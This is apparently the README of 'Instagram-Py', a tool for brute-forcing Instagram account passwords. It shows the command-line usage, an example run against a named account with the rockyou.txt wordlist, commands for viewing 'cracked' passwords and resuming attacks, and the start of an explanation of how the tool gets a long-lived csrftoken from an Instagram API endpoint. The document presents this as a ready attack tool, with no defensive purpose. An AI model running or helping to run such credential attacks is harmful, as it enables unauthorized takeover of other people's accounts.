 usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST]
                    [--script SCRIPT] [--inspect-username INSPECT_USERNAME]
                    [--create-configuration] [--default-configuration]
                    [--countinue] [--verbose]

optional arguments:
  -h, --help            show this help message and exit
  --username USERNAME, -u USERNAME
                        username for Instagram account
  --password-list PASSWORD_LIST, -pl PASSWORD_LIST
                        password list file to try with the given username.
  --script SCRIPT, -s SCRIPT
                        Instagram-Py Attack Script.
  --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME
                        Username to inspect in the instagram-py dump.
  --create-configuration, -cc
                        Create a Configuration file for Instagram-Py with
                        ease.
  --default-configuration, -dc
                        noconfirm for Instagram-Py Configuration Creator!
  --countinue, -c       Countinue the previous attack if found.
  --verbose, -v         Activate Verbose mode. ( Verbose level )

example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

Report bug, suggestions and new features at https://github.com/deathsec/instagram-py

Instagram-Py Scripting

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks. This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

Refer the Wiki to get full information about Instagram-Py Scripting , https://github.com/deathsec/instagram-py/wiki Also look into the examples tree present in this repo , it contains simple example scripts.

You Can Always View the Cracked Passwords Using this command!

$ instagram-py -i instatestgod__
$ # Displays record if it is cracked in the past!

Algorithm

Instagram-Py uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who wish to recreate this program in any other language.

You can see this live when you run the tool in max verbosity

$ instagram-py -vvv -u instatestgod__ -pl password_list.lst

You can also use Instagram-Py as a module , so that you can also use it in your script
What we do

Step 1: Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid= , where the guid get parameter is a random 32 character string. The random 32 character string can be generator using python's simple uuid library , to be specific v4 of UUID. So finally we just have to request the url https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb and get the cookie named csrftoken , if we observe the response header we could see that our cookie only expires next year the same day. So by this we only have to make this request once and can use it for a year! How vulnerable is that?...
https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png
